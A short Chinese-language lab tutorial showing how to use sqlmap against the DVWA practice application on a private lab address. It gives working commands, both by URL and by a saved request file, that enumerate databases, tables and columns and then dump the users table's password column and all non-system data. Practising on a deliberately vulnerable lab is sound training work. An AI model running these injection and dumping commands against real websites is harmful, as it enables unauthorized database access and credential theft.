 # 使用访问URL方法SQL注入该网站

> 获取除系统默认表外的所有数据 --dump-all --exclude-sysdbs

①判断注入点和数据类型

sqlmap -u http://192.168.140.134/dvwa/vulnerabilities/sqli/?id=1

判断数据库名（--current-db可判断当前数据库名）

 sqlmap -u http://192.168.140.134/dvwa/vulnerabilities/sqli/?id=1 --dbs 

判断表名

sqlmap -u http://192.168.140.134/dvwa/vulnerabilities/sqli/?id=1 -D dvwa --tables

判断列名

sqlmap -u http://192.168.140.134/dvwa/vulnerabilities/sqli/?id=1 -D dvwa -T users --column

获取字段

sqlmap -u http://192.168.140.134/dvwa/vulnerabilities/sqli/?id=1 -D dvwa -T users -C password --dump

#  使用加载外部文件方法注入该网站

先抓包，然后保存为url.txt

然后再执行sqlmap -r /etc/url.txt

判断数据库名sqlmap -r /etc/url.txt --dbs

判断表名sqlmap -r /etc/url.txt -D dvwa --tables

判断列名sqlmap -r /etc/url.txt -D dvwa -T users --column

获取具体字段名：如上图中的users表的password列

sqlmap -r /etc/url.txt -D dvwa -T users -C password --dump

获取除系统默认表外的所有数据 sqlmap -r /etc/url.txt --dump-all --exclude-sysdbs

